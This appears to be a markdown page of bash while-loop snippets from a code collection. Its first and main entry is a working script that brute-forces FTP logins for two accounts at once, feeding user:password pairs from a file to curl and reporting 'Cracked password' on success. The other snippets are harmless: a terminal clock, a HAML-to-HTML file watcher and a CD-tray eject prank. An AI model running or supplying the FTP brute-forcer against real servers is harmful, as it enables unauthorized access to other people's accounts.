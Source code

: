 # while-loop

### Bruteforce two ftp accounts at once

```sh
#!/bin/bash
# Author: wuseman
# Desc: Bruteforce 2 accounts at once

okMSG() {
    echo -e "[\e[1;32m*\e[0m] $*"
}

errMSG() {
    echo -e "[\e[1;31m*\e[0m] $*"
}


1() {
    curl ftp://host:port -u $line &> /dev/null
    [[ $? = "0" ]] &&  okMSG "Cracked password for $line" || errMSG "Bad password for $line"
}

2() {
    curl ftp://host:port -u $line1 &> /dev/null -u $line1 &> /dev/null
    [[ $? = "0" ]] &&  okMSG "Cracked password for $line1" || errMSG "Bad password for $line1"
}

while 
	read line;read line1; 
   	do 
    1;2;sleep 0.1;
done < test
```


### Put a console clock in top right corner
```sh
while sleep 1;do tput sc;tput cup 0 $(($(tput cols)-29));date;tput rc;done &
```

### Convert HAML to HTML on file change
```sh
while true; do filechanged=$(inotifywait -e close_write,moved_to format "%w%f" .); haml $filechanged -q no-escape-attrs > ${filechanged/.haml/.html}; done
```

### Open/Close your co-worker's cd player
```sh
while true; do eject && sleep `expr $RANDOM % 5` && eject -t; done;
```
